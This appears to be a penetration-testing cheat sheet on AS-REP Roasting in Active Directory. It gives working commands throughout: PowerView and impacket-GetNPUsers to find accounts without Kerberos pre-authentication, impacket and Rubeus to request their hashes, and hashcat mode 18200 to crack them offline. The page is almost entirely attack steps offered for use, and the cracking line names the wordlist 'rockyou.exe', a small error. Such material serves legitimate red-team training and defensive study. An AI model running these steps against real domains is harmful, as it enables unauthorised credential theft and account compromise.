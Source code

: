 Adversaries may reveal credentials of accounts that have disabled Kerberos pre-authentication by [Password Cracking](https://attack.mitre.org/techniques/T1110/002) Kerberos messages.

## AS-REP Roasting Methodology
First we must identify Users that do not require Kerberos pre-auth. BloodHound works. Here is another way.

#### Identify Users not requiring Kerberos pre-auth
```PowerShell
# PowerView
Import-Module .\PowerView.ps1
Get-DomainUser -PreauthNotRequired

# impacket-GetNPUsers
impacket-GetNPUsers -dc-ip <ip> <domain/user>
```

#### Linux Attack
```bash
impacket-GetNPUsers -dc-ip <ip> -request -outputfile hashes.asreproast <domain>/<user>
	# The user is who we are authenticating with

# if we have a LIST of users
impacket-GetNPUsers -dc-ip <ip> -request -outputfile hashes.asreproast -usersfile users.txt '<domain>/'
```

#### Windows Attack
```powershell
.\Rubeus.exe asreproast /nowrap
	# nowrap prevents new lines being added to hashes
```

#### Cracking the Hashes
```bash
sudo hashcat -m 18200 hashes.asreproast rockyou.exe -r /usr/share/hashcat/rules/best64.rule --force
```
